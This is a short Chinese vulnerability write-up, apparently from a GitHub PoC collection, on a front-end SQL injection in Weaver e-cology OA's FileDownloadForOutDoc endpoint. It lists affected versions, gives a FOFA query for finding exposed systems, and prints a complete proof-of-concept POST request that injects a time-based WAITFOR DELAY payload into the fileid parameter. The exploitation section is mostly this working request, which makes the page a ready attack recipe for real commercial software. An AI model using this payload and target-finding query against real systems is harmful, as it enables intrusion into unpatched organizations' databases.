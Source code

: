 # 泛微OA e-cology FileDownloadForOutDoc前台SQL注入漏洞.md

## 漏洞描述

泛微e-cology未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞

## 漏洞影响

```
部分e-cology 8且补丁版本<10.58.0
部分e-cology 9且补丁版本<10.58.0
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现
主页
<img width="1304" alt="image" src="images/c1a26215-1b62-419c-9db4-feb67d554edc.png">


POC

```plain
POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

fileid=3+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1
```

<img width="1266" alt="image" src="images/5476bce7-1c60-4b6c-886a-92c014f43a50.png">
